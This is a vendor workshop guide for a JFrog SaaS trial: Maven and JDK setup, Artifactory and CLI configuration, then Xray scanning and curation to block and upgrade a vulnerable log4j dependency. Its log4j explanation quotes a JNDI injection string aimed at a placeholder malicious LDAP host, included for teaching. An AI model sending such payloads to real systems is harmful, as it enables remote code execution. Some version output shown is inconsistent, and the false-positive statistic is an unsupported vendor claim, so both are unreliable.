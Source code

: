 # 🏗️ JFrog SaaS Trial Workshop Guide

Welcome to the **JFrog SaaS Trial Workshop!** 🎓  
This guide will help you get started with JFrog SaaS and practice building a Maven project.

## 📝 Prerequisites
### JDK 17 Installation
<details>
<summary> Click to expand Maven installation steps </summary>

1. **Install JDK**
   - Download and install JDK from [OpenJDK](https://jdk.java.net/archive/)

2. **Configure Environment Variables**
   <details>
   <summary>Click to expand configuration steps</summary>

   - **Set JAVA_HOME**
     1. Open System Properties (Win + S → "Environment Variables")
     2. Click "Environment Variables" → "New" under System variables
     3. Set:
        ```
        Variable name: JAVA_HOME
        Variable value: C:\Program Files\Java\jdk-17
        ```
   
   - **Add Java to PATH**
     1. In System variables, select "Path" → "Edit"
     2. Click "New" and add:
        ```
        %JAVA_HOME%\bin
        ```
     3. Click "OK" to save
   </details>

3. **Verify Installation**
   ```bash
   # Check Java version
   java -version
   
   # Check Java compiler
   javac -version
   ```
   
   Expected output:
   ```
   openjdk version "1.8.0_442-internal"
   OpenJDK Runtime Environment (build 1.8.0_442-internal-b06)
   OpenJDK 64-Bit Server VM (build 25.442-b06, mixed mode)
   ```
</details>

### Maven 3.6+
<details>
<summary>Click to expand Maven installation steps</summary>

1️⃣ **Download Maven**
   - Go to [Apache Maven download page](https://maven.apache.org/download.cgi)
   - Download the Binary zip archive (e.g., `apache-maven-3.9.6-bin.zip`)

📂 2️⃣ **Extract Maven**
   - Extract the downloaded ZIP file to a directory, e.g.:
     ```
     C:\Program Files\Apache\Maven
     ```
   - Your Maven folder structure should look like:
     ```
     C:\Program Files\Apache\Maven\apache-maven-3.9.6
     ```

⚙️ 3️⃣ **Set Environment Variables**
   <details>
   <summary>Click to expand environment variables configuration</summary>

   ### Windows Environment Setup
   
   #### Method 1: Using System Properties
   ```bash
   # 1. Open System Properties
   # Press Win + S and type "Environment Variables"
   # Or right-click on This PC → Properties → Advanced system settings
   
   # 2. Click "Environment Variables" button
   # 3. Under "System variables" section, click "New"
   # 4. Set MAVEN_HOME:
   Variable name:  MAVEN_HOME
   Variable value: C:\Program Files\Apache\Maven\apache-maven-3.9.6
   
   # 5. Find "Path" variable, click "Edit"
   # 6. Click "New" and add:
   %MAVEN_HOME%\bin
   # 7. Click "OK" on all windows to save
   ```

   #### Method 2: Using Command Line
   ```bash
   # Run Command Prompt as Administrator
   
   # Set MAVEN_HOME
   setx MAVEN_HOME "C:\Program Files\Apache\Maven\apache-maven-3.9.6" /M
   
   # Add to PATH
   setx PATH "%PATH%;%MAVEN_HOME%\bin" /M
   ```

   ### Verify Installation
   ```bash
   # Open a new Command Prompt and run:
   mvn -version
   ```
   
   Expected output:
   ```
   Apache Maven 3.9.6 (...)
   Maven home: C:\Program Files\Apache\Maven\apache-maven-3.9.6
   Java version: 1.8.0_442, vendor: Oracle Corporation
   Java home: C:\Program Files\Java\jdk1.8.0_442
   Default locale: en_US, platform encoding: UTF-8
   OS name: "windows 10", version: "10.0", arch: "amd64", family: "windows"
   ```

   > **Note:** After setting environment variables, you need to open a new Command Prompt for the changes to take effect.
   </details>
</details>

## 🚀 Getting Started

### 1. Apply for JFrog SaaS Trial
1. [Apply for JFrog SaaS Trial](https://jfrog.com/start-free/)  
Select "14-Day Free Trial", it will give you own JFrog Platform.
![alt text](images/trial.png)
2. Ensure you have access to:
   - ✅ **JFrog Artifactory (SaaS)**
   - ✅ **JFrog Xray** 

### 2. Clone the Project
```bash
git clone https://github.com/JFrogChina/jfrog-poc-samples.git
cd jfrog-poc-samples/maven-sample
```

### 3. Create Maven Repositories
![img_6.png](images/img_6.png)
1. Log in to JFrog SaaS Platform
2. Click **Quick Repository Creation** (top-right)
3. Select **Maven** and create:
   - Local Repo: `sample-libs-snapshot-local` `sample-libs-release-local`
   - Remote Repo: `sample-maven-remote`
   - Virtual Repo: `sample-libs-snapshot` `sample-libs-release`

### 4. Configure JFrog CLI
1. [Download JFrog CLI](https://jfrog.com/getcli/)
2. Configure your environment:
   ```shell
   jf c add saas
   ```
   Follow prompts to enter:
   - JFrog Platform URL: `https://<YOUR_DOMAIN>.jfrog.io`
   - username
   - password or Reference Token (from Profile → Edit Profile → Generate an Identity Token)

### 5. Configure Maven
```shell
cd maven-sample
jf mvnc
```
This generates a `settings.xml` pointing to your SaaS repositories.

### 6. Build and Deploy
```shell
jf mvn clean install -f pom.xml --build-name=sample-maven-build --build-number=1
jf mvn deploy --build-name=sample-maven-build --build-number=1
jf rt bp sample-maven-build 1
```

### 7. Verify Deployment
- Check **Artifactory → Artifacts** for deployed files
- View build info in **Builds** section

### 8. Enable Xray Scanning
1. Go to **JFrog Xray → Index Resource**
2. Add to watch:
   - Repositories: `sample-libs-snapshot-local` `sample-libs-release-local`
   - Builds: `sample-maven-build`

### Understanding log4j Vulnerability
The log4j vulnerability (CVE-2021-44228) is detected because your project uses log4j-core 2.14.0. However, it's only exploitable when:

1. Using vulnerable logging patterns:
   ```java
   // Vulnerable
   logger.info("${jndi:ldap://malicious-server/exploit}");
   
   // Safe
   logger.info("User logged in: {}", username);
   ```

2. **AND** when:
   - Logging user-controlled input
   - Input contains `${jndi:ldap://...}` pattern
   - Application has network access to malicious server

This explains why Xray shows many false positives - vulnerabilities exist in code but aren't exploitable in your use case.

### 9. Remediate log4j Vulnerability

#### 9.1 Review Vulnerability
JFrog Advanced Security has identified this log4j package as a true positive. You can view the detailed evidence in the security report.
![img_1.png](images/img_1.png)

#### Review the False Positive Results
![img_5.png](images/img_5.png)
> **86% of critical/high vulnerabilities are false positives**

![img_4.png](images/img_4.png)

#### 9.2 Block Vulnerable Version
![img_7.png](images/img_7.png)
1. **Create Block Condition:**  
   Administrator → Curation Settings → Create Condition  
   ![img.png](images/img.png)

2. **Create Policy:**  
   ![img_2.png](images/img_2.png)

3. **Clean Cache:**
   ```bash
   rm -rf ~/.m2/repository/org/apache/logging/log4j/*
   ```

4. **Verify Block:**
   ```shell
   [main] ERROR org.apache.maven.cli.MavenCli - Failed to execute goal on project app-boot: Could not resolve dependencies for project com.example.jfrog:app-boot:war:1.0.2: Could not transfer artifact org.apache.logging.log4j:log4j-core:jar:2.14.0 from/to artifactory-release (https://demo.jfrogchina.com/artifactory/alex-maven): authorization failed for https://demo.jfrogchina.com/artifactory/alex-maven/org/apache/logging/log4j/log4j-core/2.14.0/log4j-core-2.14.0.jar, status: 403 Forbidden -> [Help 1]
   ```
   ![img_3.png](images/img_3.png)

5. **Fix: Update log4j Version**
   ```xml
   <dependency>
       <groupId>org.apache.logging.log4j</groupId>
       <artifactId>log4j-core</artifactId>
       <version>2.17.1</version>
   </dependency>
   ```

6. **Rebuild:**
   ```shell
   jf mvn clean
   jf mvn deploy --build-name=sample-maven-build --build-number=2
   jf rt bp sample-maven-build 2
   ```

The build should be successful and the issue was fixed.

7. **Analysis of Vulnerability Fixing Trends:**
Platform → Xray → Scan List → Builds
![alt text](images/buildList.png)

The build should complete successfully, confirming that the security issue has been fixed.

> **Happy building and stay secure! 🚀**